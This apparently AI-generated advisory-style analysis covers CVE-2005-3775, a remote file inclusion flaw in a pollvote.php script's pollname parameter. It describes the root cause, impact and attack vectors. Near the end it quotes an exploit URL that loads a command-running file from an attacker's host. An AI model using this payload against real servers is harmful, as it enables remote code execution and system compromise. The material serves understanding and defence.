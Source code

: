 Based on the provided content, here's an analysis of CVE-2005-3775:

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) vulnerability in the `pollvote.php` script. This occurs because the `pollname` parameter in the script is not properly sanitized, allowing an attacker to include a remote file.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion:** The primary vulnerability is the ability to include and execute arbitrary code from a remote server. This is due to insufficient input validation of the `pollname` parameter.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** An attacker can achieve arbitrary code execution on the vulnerable server by including a malicious file (e.g., a PHP script) from a remote location.
- **System Compromise:** Successful exploitation could lead to full system compromise, data theft, and other malicious activities.

**Attack Vectors:**
- **HTTP GET Request:** The attack vector is through a crafted HTTP GET request, where the `pollname` parameter is manipulated to point to a remote malicious file.
- **URL Parameter Manipulation:** Attackers can use URL parameters to inject the malicious URL.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker requires network access to the vulnerable server.
- **Ability to Host a Malicious File:** The attacker must have a remote server where they can host a malicious file, which will be included by the vulnerable script.
- **Knowledge of Vulnerable Script:** The attacker needs to know the path to `pollvote.php` and the exploitable parameter, `pollname`.

**Additional Notes:**
- The provided exploit example shows how the vulnerability can be exploited: `http://[host].com/[path]/pollvote.php?pollname=http://www.[host].com/CMD.gif?&cmd=ls`
- The attacker is attempting to include a GIF file, which they have manipulated with PHP code. The `cmd=ls` part is likely to perform a command injection to execute an arbitrary command if the php interpreter renders the injected php code.

This content provides more detailed information than the placeholder CVE description, clarifying how the RFI vulnerability can be exploited and the potential consequences.